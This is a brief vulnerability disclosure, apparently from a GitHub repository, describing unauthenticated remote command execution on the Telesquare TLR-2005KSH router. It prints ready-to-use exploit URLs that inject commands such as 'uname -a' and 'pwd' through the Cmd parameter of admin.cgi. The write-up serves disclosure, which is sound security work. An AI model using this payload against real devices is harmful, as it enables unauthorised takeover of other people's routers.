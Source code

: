 # Telesquare TLR-2005KSH The router has an unauthorized remote command execution vulnerability

## Vulnerability Details：

By inputting the following payload to access vulnerable devices, an attacker can exploit this vulnerability to execute system commands unauthorized through the 'Cmd' parameter



/cgi-bin/admin.cgi?Command=sysCommand&Cmd=uname%20-a

![1734088238407](https://github.com/kklzzcun/route/tree/main/TLR-2005KSH/assets/1734088238407.jpg)

/cgi-bin/admin.cgi?Command=sysCommand&Cmd=pwd

![1734088373076](C:\Users\zzcun\Desktop\TLR-2005KSH\assets\1734088373076.jpg)

This vulnerability affects known product versions: 2.6.36 and later.

